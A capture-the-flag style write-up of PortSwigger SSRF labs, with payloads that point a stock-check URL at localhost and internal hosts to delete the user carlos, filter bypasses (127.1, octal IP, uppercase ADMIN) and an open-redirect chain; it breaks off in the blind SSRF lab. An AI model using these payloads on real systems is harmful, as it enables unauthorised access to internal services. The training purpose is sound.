01 Basic SSRF against the local server
======================================

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at
http://localhost/admin and delete the user carlos.

References:

-   https://portswigger.net/web-security/ssrf



There is a button to check the stock:



It generates this POST request:



The stockApi parameter contains the url
“http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1”,
and we can tryo to change it to other url:



For example we can check the content of the /admin page:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /product/stock HTTP/2
...

stockApi=http://localhost/admin
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



From the source code we find using a GET request we can delete a user:



So we can delete “carlos” with this payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /product/stock HTTP/2
...

stockApi=http://localhost/admin/delete?username=carlos
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



02 Basic SSRF against another back-end system
=============================================

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, use the stock check functionality to scan the internal
192.168.0.X range for an admin interface on port 8080, then use it to delete the
user carlos.

Generated link:
https://0aac00f403f0604981937fdd00f60012.web-security-academy.net/

POST request to check stock:



Intruder:



.169 contains admin panel:



It seems it is possible to delete users with a GET request from the response:



We will add this to the request:



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /product/stock HTTP/2
...
stockApi=http%3A%2F%2F192.168.0.169%3A8080%2Fadmin/delete?username=carlos
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

03 SSRF with blacklist-based input filter
=========================================

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at
http://localhost/admin and delete the user carlos.

The developer has deployed two weak anti-SSRF defenses that you will need to
bypass.

References:

-   https://portswigger.net/web-security/ssrf



There is a button to check the stock:

It generates this POST request:



The stockApi parameter contains the url
“http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1”,
and we can tryo to change it to other url:

It seems we can not use “http://127.0.0.1” or “http://localhost/”:



Using http://017700000001/ the error changes:



Using http://127.1 we can access the local server, for example we can access
/login. But we still can not access /admin, it gets detected.



Using case variation, using ADMIN in uppercase, it is possible to access /admin:



From the source code we find it is possible to delete the user with a GET
request with a payload like this:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /product/stock HTTP/2
...

stockApi=http://127.1/ADMIN/delete?username=carlos
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



04 SSRF with filter bypass via open redirection vulnerability
=============================================================

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at
http://192.168.0.12:8080/admin and delete the user carlos.

The stock checker has been restricted to only access the local application, so
you will need to find an open redirect affecting the application first.

Reference: https://portswigger.net/web-security/ssrf



Generated link:
https://0abd004b03b8fa4e80328aba002a00f0.web-security-academy.net



POST request with data “stockApi=/product/stock/check?productId=1&storeId=1”



The endpoint is reachable through a GET request in
https://0abd004b03b8fa4e80328aba002a00f0.web-security-academy.net/product/stock/check?productId=1&storeId=1
as well:



There is a “Next product” button:



It uses the “path” parameter to set the id of the next product to display and
redirecto to that page:



We test the folowing payload and find the open redirection:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Now we will create a new POST request using this payload as the stockApi
parameter:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /product/stock HTTP/2
...

stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Reading the HTML code we see the user carlos can be deleted with a GET request
like http://192.168.0.12:8080/admin/delete?username=carlos



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /product/stock HTTP/2
...

stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin/delete?username=carlos
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



05 Blind SSRF with out-of-band detection
========================================

This site uses analytics software which fetches the URL specified in the Referer
header when a product page is loaded.

To solve the lab, use this functionality to cause an HTTP request to the public
Burp Collaborator server.

Note: To prevent the Academy platform being used to attack third parties, our
firewall blocks interactions between the labs and arbitrary external systems. To
solve the lab, you must use Burp Collaborator's default public server.

References:

-   https://portswigger.net/web-security/ssrf



Intercept the request when clicking a product and change the “Referer” header:

